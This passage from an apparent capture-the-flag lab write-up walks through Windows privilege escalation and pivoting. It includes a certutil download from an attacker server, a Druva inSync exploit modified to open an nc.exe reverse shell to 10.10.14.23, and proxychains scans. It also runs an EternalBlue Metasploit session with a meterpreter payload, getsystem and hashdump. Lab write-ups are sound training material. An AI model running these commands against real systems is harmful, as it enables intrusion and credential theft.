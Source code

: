 We can upload winPEAS.exe and try to run it and see.

On attacker machine
```bash
python3 -m http.server 1235
```

On the Windows machine to download it.
```PowerShell
certutil -urlcache -split -f [http://10.10.14.23:1235/winPEAS.exe](http://10.10.14.23:1235/winPEAS.exe) winPEAS.exe
```

Turns out access is denied so I just use the previous way how we uploaded `nc.exe` 

and we find out  a vulnerable service call Druva insync and we search for it's exploits.

We find a python exploit and a powershell exploit as python is not on windows we use ps script.

The script is a POC so it doesn't do anything so we have to change the `$cmd` variable in it to give us a reverse shell.

```PowerShell
$cmd = "C:\xampp\htdocs\discuss\ups\nc.exe 10.10.14.23 4443 -e C:\Windows\System32\cmd.exe"
```

and we get a reverse shell and we find the flag in `Administrator/Desktop`


## That just blew my mind

Let's move on to `172.16.1.20` 

Lets do a samba enum

```bash
proxychains enum4linux -a 172.16.1.20
```

We don't find much of anything. Until now I've been using the output of the nmap scan of which ip's and ports are up without vulns or any scripts running on them, so I was in the dark most of the time. So I decided even if it takes a day or two I need a full enumerated scan to properly work on it and decided to do it.

I tried to do this with metasploit but turns out it works normally too

```bash
proxychains nmap --script vuln -sT -A -T4 -Pn 172.16.1.20 --open -d
```

We find it is vulnerable to eternal blue, so we go to metasploit 

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/x64/meterpreter/reverse_tcp
getsystem
hashdump
```

Set lhost to the ip that vpn assigns to you not the pivoted one and use the `reverse_tcp` payload.
